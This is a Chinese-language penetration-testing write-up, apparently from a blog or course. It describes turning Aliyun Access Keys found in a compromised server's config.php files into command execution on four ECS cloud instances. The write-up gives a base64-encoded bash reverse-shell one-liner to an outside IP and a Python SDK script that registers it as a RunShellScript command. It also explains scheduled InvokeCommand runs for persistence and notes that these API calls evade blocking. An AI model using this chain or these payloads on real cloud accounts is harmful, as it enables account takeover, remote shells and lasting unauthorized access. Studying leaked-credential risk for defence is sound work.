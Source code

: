 ### 13.2 阿里云Access Token问题 - 项目收获记录

**0x00 前言**

Q：在获得权限较低的Webshell的情况下，如何继续扩大收获？

A：首先，信息搜集，分别包含：当前权限，主机网络环境、系统进程、网络连接状况、散落的凭证等，然后进行战略分析

    1）是否需要提权
    2）如何将流量带入（转发）
    3）结合搜集的信息转化出其他更好的思路
    
        

很巧，我遇到了第三种情况。

**Tips：内网渗透一般提权是最不可取的方案，我们只需要不断搜集信息、撕开一个流量口子即可。**

**0x01 阿里云对象存储 - OSS**

什么是对象存储？

阿里云对象存储服务（Object Storage Service，简称OSS），是阿里云对外提供的海量、安全、低成本、高可靠的云存储服务。您可以通过本文档提供的简单的REST接口，在任何时间、任何地点、任何互联网设备上进行上传和下载数据。基于OSS，您可以搭建出各种多媒体分享网站、网盘、个人和企业数据备份等基于大规模数据的服务。

通过Webshell在目标机器（Linux）的Web站点目录下发现多个子站配置文件`config.php`，配置了同一个阿里云的OSS地址，只是存储空间（Bucket）不同。

通常情况下一个阿里云oss地址的组成如下：

    http(s)://[BucketName].oss-cn-[Region].aliyuncs.com
    
        

BucketName ：存储空间

Region：地域，目前有如下几个：

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011211455764.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
例如：杭州 = cn-hangzhou

**0x02 Access Token**

Access Token = AccessKeyId + AccessKeySecret

OSS通过使用AccessKeyId/ AccessKeySecret对称加密的方法来验证某个请求的发送者身份。

AccessKeyId用于标示用户，AccessKeySecret是用户用于加密签名字符串和OSS用来验证签名字符串的密钥，其中AccessKeySecret必须保密，只有用户和OSS知道。AccessKey 根据所属账号的类型有所区分。

**阿里云账户AccessKey：阿里云账号提供的AccessKey拥有所属资源的全部操作权限**

RAM账户AccessKey：RAM账户由阿里云账号授权生成，所拥有的AccessKey拥有对特定资源限定的操作权限

STS临时访问凭证：由阿里云账号或RAM账号生成，所拥有的AccessKey在限定时间内拥有对特定资源限定的操作权限。过期权限收回。

详细介绍

**0x03 通过Access Token接管ECS**

ECS：云服务器（Elastic Compute Service，简称 ECS）是一种简单高效、处理能力可弹性伸缩的计算服务，帮助您快速构建更稳定、安全的应用，提升运维效率，降低 IT 成本，使您更专注于核心业务创新。

前面介绍到，默认情况下，阿里云用户获得的Access Token是对当前用户所有服务通用的令牌，在没有使用RAM账户的情况下，就可以使用SDK去操作阿里云所有产品。

在此次项目里，我接管了四台ECS，执行任意命令，获得最大权限。

首先，通过读取配置文件，获得了同于上传图片所需要认证的Access Token，如何检验是否可用的呢？

    Access Key Id : *********
    Access Secret : ***************************
    Region : cn-*****
    
        

下面直接调用获取ECS实例的API即可，以往情况下，我会使用Python，安装阿里云的sdk-core库，但是现在能在线调试，大大的节省了本地调试的成本：

DescribeInstances - 获得实例信息

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011211558127.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
只有第一个`RegionId`是必填项，点击`API Explorer`，可以直接进入调试环境：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011211618364.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
服务器上的oss配置中刚好有RegionId，我就直接选择了，然后填入Access Token信息，就可以获得数据。

我是直接在`Alicloud Shell`里复制了一份运行的：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011211636799.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
输出结果如下：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011211648209.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
使用`json.cn`格式化一下：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011211703948.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
共四台服务器，那么如何执行命令呢？

首先要创建一条命令，然后指定实例来调用命令，手册地址：

    https://help.aliyun.com/document_detail/64844.html
    
        

命令的类型取值范围：

    RunBatScript：创建一个在 Windows 实例中运行的 Bat 脚本
    RunPowerShellScript：创建一个在 Windows 实例中运行的 PowerShell 脚本
    RunShellScript：创建一个在 Linux 实例中运行的 Shell 脚本
    
        

由于都是Linux，我就选择RunShellScript，注意：命令必须是base64encode

    rvn0xsy@Rvn0xsy ~> echo "bash -i >& /dev/tcp/1.1.1.1/2333 0>&1" | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F202010112117369.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    
```
#!/usr/bin/env python
    #coding=utf-8
    
    from aliyunsdkcore.client import AcsClient
    from aliyunsdkcore.acs_exception.exceptions import ClientException
    from aliyunsdkcore.acs_exception.exceptions import ServerException
    from aliyunsdkecs.request.v20140526.CreateCommandRequest import CreateCommandRequest
    
    client = AcsClient('<accessKeyId>', '<accessSecret>', 'cn-shanghai')
    
    request = CreateCommandRequest()
    request.set_accept_format('json')
    
    request.set_Type("RunShellScript")
    request.set_CommandContent("YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=")
    request.set_Name("test")
    
    response = client.do_action_with_exception(request)
     python2:  print(response) 
    print(str(response, encoding='utf-8'))
```

    
        

执行成功后，会返回如下信息：

    {
    	"RequestId": "********-****-****-****-********",
    	"CommandId": "c-0************"
    }
    
        

CommandId最好记下来，不然还要调用DescribeCommands

```

    {
    	"PageNumber": 1,
    	"TotalCount": 1,
    	"PageSize": 10,
    	"RequestId": "********-****-****-****-********",
    	"Commands": {
    		"Command": [
    			{
    				"Name": "test",
    				"Timeout": 3600,
    				"CommandContent": "YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=",
    				"Description": "",
    				"Type": "RunShellScript",
    				"CommandId": "c-0************",
    				"WorkingDir": ""
    			}
    		]
    	}
    }
    
```

        

紧接着就是`InvokeCommand`：

    RegionId：区域ID，例如：cn-shanghai
    CommandId：命令ID
    InstanceId：实例ID
    Timed：命令是否为周期执行。 默认值：False
    Frequency：周期任务的执行周期，两次周期任务的时间间隔不能低于10秒。当参数 Timed 的值为 True 时，参数 Frequency 为必需参数。 该参数取值遵循Cron表达式，参阅Cron表达式。
    
        

默认情况下，我们不需要管后面的参数，如果你想权限维持的话，可以设置Timed为False，并且设置Frequency为定时任务计划表达式，执行的过程中，基本上不会拦截，因为Access Token的调用，一切都是白名单的。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101121184954.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *